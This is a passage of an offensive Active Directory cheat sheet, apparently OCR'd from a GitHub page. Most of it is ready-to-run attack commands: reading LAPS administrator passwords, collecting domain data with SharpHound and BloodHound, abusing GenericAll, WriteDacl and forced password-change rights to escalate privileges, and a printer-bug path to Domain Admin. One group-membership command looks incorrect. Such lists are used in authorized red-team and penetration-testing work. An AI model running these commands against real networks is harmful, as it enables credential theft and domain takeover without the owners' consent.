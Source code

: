 ```cmd
.\redteam-seashell.exe
SEA> rpcenable <host>
```

### Sensitive Information

* LAPS password
```powershell
Get-DomainObject <hostname> -Properties "ms-mcs-AdmPwd",name
```

### BloodHound

* collect
```powershell
Import-Module SharpHound.ps1
Invoke-BloodHound -c all -d <domain> -outputdirectory <dir>
```

```cmd
SharpHound.exe -c all -d <domain> --outputdirectory <dir>
```

* analyze
```bash
sudo neo4j start
bloodhound
```

## Privilege Escalation

### GenericAll
* group
```
net user <group> <user> /domain 
```

### WriteDacl
* add `GenericAll` right over `<target object>` to `<base object>`
```powershell (PowerView)
Add-DomainObjectAcl -TargetIdentity <target object> -PrincipalIdentity <base object> -Rights All
```

### ForcePasswordChange
```
$UserPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
Set-DomainUserPassword -Identity nina -AccountPassword $UserPassword -Credential $Cred
```

### Printer Bug to Domain Admin
* Condition
- unconstrained delegation host is compromised
- print spoofer is running at target host
    ```powershell
    dir \\target\pipe\spoolss
    ```
